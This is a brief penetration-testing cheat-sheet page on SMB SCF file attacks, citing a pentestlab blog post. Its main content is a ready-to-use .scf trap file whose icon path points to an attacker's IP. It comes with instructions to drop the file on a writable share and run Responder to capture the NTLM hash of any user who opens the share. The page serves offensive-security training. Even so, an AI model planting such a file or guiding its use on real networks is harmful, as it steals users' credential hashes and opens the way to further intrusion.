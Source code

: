 # SMB

## SCF File Attacks

A way to get hash is to use SCF file. If you have access to a writable share in a server you can upload a trap like this with the .scf extension :&#x20;

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

By replacing the X by your IP address.

And then, launch a Responder on your IP, and if the victim visit the share with your file, Windows will try to download the the Icon file and send to you the user hash :&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



### References

* [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
